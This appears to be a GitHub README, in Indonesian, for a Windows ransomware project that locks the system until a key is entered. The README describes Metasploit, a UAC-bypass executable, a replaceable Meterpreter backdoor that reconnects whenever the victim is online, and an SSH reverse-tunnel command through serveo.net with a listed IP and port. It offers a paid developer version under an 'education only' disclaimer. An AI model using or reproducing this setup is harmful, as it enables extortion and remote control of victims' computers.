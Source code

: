 <meta name="viewport" content="width = 320, initial-scale = 2.3, user-scalable = no">
<meta name="viewport" content="width = device-width">
<meta name="viewport" content="initial-scale = 1.0">
<meta name="viewport" content="initial-scale = 2.3, user-scalable = no">
<meta name="og:title" content="My Ransomeware"/>
<meta name="og:type" content="article"/>
<meta name="og:url" content="https://github.com/webmestudio/myransomeware"/>
<meta name="og:image" content="https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS1.PNG"/>
<meta name="og:site_name" content="Github Noname"/>
<meta name="og:description" content="(ransomware) adalah jenis perangkat perusak yang dirancang untuk menghalangi akses kepada sistem komputer atau data hingga tebusan dibayar. Jenis yang sederhana bekerja dengan mengunci sistem dengan cara yang tidak sulit untuk ditangani oleh orang yang ahli, sedangkan jenis yang lebih canggih akan mengenkripsi berkas sehingga tidak dapat diakses. Serangan perangkat pemeras umumnya dilakukan melalui Trojan yang disamarkan sebagai berkas yang sahih."/>

# My Ransomeware 2018

[Catatan]

- Jalankan software pada virtual operating system yang berjalan pada VMWare atau virtualBox

- Jangan merubah nama folder [VirusUI] atau mengedit nama file pada folder tersebut jika anda menjalankan pada BypassWinSetup.exe untuk mendapatkan akses UAC.

[Alat yang digunakan]

- Windows sub system linux (WSL) - Kali Linux

- Metasploit

- SSH

- VMWare

[Cara Kerja Software]

- Windows akan terkunci dan anda tidak bisa melakukan apa2 karna system inti di nonaktifkan cara satu2nya anda harus unlock dengan memasukan encrypt key ke dalam software untuk kambali ke seperti semula

- Selama komputer victim terhubung ke internet, maka komputer victim akan terus tersuntikan meterpreter dengan komputer penyerang secara realtime


[Opendoor.exe]

- jika anda sudah memiliki pengetahuan tentang pembuatan file backdoor, anda bisa merubah reverse untuk meterpreter dengan menimpah file Opendoor.exe dengan backdoor buatan anda.


[SSH]

- Backdoor mendengarkan port 9998 dengan IP 159.89.214.31 dari seveo.net

- [cmd] -> ssh -R 9998:127.0.0.1:4444 darksite@serveo.net


[Tested Works]

- Windows 10 versi up

- windows 8

- windows 7

[Screenshoot]

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS1.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS2.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS3.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS4.PNG)

[Tujuan]

- Ini untuk edukasi saja, jadi gunakan dengan bijak :D

- Jika anda menginginkan versi developer software ini, anda bisa hubungi saya dan tidak gratis. 

- Kasih saya donasi untuk kopi dan rokok :D

- [Remember] Saya bukan hacker ataupun cracker. hanya saja saya suka mengulik sesuatu.
